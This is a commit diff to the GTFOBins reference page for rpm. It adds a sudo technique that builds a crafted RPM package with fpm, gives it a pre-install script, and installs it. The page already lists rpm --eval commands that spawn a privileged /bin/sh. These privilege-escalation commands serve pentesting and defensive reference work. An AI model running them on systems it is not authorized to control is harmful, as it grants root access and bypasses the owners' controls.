

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rpm.md, in a window 1280 px wide. Shown: the whole page at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Add other sudo to rpm thanks to https://lsdsecurity.com/2019/01/linux-privilege-escalation-using-apt-get-apt-dpkg-to-abuse-sudo-nopasswd-misconfiguration/ as in #51

````diff
--- a/_gtfobins/rpm.md
+++ b/_gtfobins/rpm.md
@@ -6,4 +6,13 @@ functions:
     - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
   sudo:
     - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
+    - description: |
+        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
+        ```
+        TF=$(mktemp -d)
+        echo 'id' > $TF/x.sh
+        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
+        ```
+      code: |
+        sudo rpm -ivh x-1.0-1.noarch.rpm
 ---
````
